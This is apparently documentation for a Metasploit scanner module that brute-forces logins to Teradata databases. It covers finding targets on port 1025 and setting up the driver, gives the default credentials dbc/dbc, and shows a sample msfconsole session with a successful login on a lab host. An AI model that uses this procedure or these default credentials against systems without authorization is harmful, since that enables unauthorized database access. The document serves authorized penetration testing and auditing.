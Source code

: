 The teradata_odbc_login module is used to brute-force credentials for Teradata databases.

## Vulnerable Application

* Teradata Database
* Teradata Express

Teradata databases can be identified by scanning for TCP port 1025. An Nmap version scan can confirm if the service is recognized as Teradata.

## Extra Requirements

This module requires the Teradata ODBC driver and the Teradata python library.

### ODBC Driver for Kali Linux 2017.3
1. Download the Teradata ODBC driver for Ubuntu from [downloads.teradata.com](https://downloads.teradata.com/download/connectivity/odbc-driver/linux).
2. Refer to the Ubuntu package README for up-to-date instructions.
   1. Install **lib32stdc++6** if necessary.
   2. Install the ODBC drivers: `dpkg -i [package].deb`
   3. Copy **/opt/teradata/client/ODBC_64/odbc.ini** to **/root/.odbc.ini** .
      * Or your home directory if not root.
      * Make sure **odbc.ini** has been renamed to **.obdc.ini** .

### Configuration for OS X

On OS X the Python client needs to be pointed to the ODBC driver manually. Create `~/udaexec.ini` with the following contents:
```ini
[CONFIG]

odbcLibPath=/usr/lib/libiodbc.dylib
```

### Python Package
```
pip install teradata
```
## Verification Steps
1. Deploy a [Teradata Express](https://www.teradata.com/products-and-services/teradata-express) test environment.
2. Install the OBCD driver and python package.
3. Start msfconsole.
4. Do: `use auxiliary/scanner/teradata/teradata_odbc_login`
5. Do: `set RHOSTS [IPs]`
6. Do: `set USERNAME [username to try]`
7. Do: `set PASSWORD [password to try]`
   * The default Teradata credentials are the matching username and password 'dbc'.
8. Do: `run`

```
msf > use auxiliary/scanner/teradata/teradata_odbc_login
msf auxiliary(scanner/teradata/teradata_odbc_login) > set RHOSTS 192.168.0.2
RHOSTS => 192.168.0.2
msf auxiliary(scanner/teradata/teradata_odbc_login) > set USERNAME dbc
USERNAME => dbc
msf auxiliary(scanner/teradata/teradata_odbc_login) > set PASSWORD dbc
PASSWORD => dbc
msf auxiliary(scanner/teradata/teradata_odbc_login) > run

[*] Running for 192.168.0.2...
[*] 192.168.0.2:1025 - Creating connection: %s
[*] 192.168.0.2:1025 - Loading ODBC Library: %s
[*] 192.168.0.2:1025 - Method succeeded with info:  [26] 523 24
[*] 192.168.0.2:1025 - Method succeeded with info:  [26] 523 24
[*] 192.168.0.2:1025 - Available drivers: Teradata Database ODBC Driver 16.20, 
[*] 192.168.0.2:1025 - Creating connection using ODBC ConnectString: %s
[*] 192.168.0.2:1025 - Setting AUTOCOMMIT to %s
[*] 192.168.0.2:1025 - FETCH_SIZE: 1
[*] 192.168.0.2:1025 - Buffer size for column %s: %s
[*] 192.168.0.2:1025 - SELECT SESSION returned %s
[*] 192.168.0.2:1025 - Executing query on session %s using SQLExecDirectW: %s
[*] 192.168.0.2:1025 - Committing transaction...
[*] 192.168.0.2:1025 - Created session %s.
[*] 192.168.0.2:1025 - Creating cursor %s for session %s.
[*] 192.168.0.2:1025 - Connection successful. Duration: %.3f seconds. Details: %s
[*] 192.168.0.2:1025 - Closing cursor %s for session %s.
[*] 192.168.0.2:1025 - Closing session %s...
[*] 192.168.0.2:1025 - Session %s closed.
[+] 192.168.0.2:1025 - [1/1] - dbc:dbc - Success
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
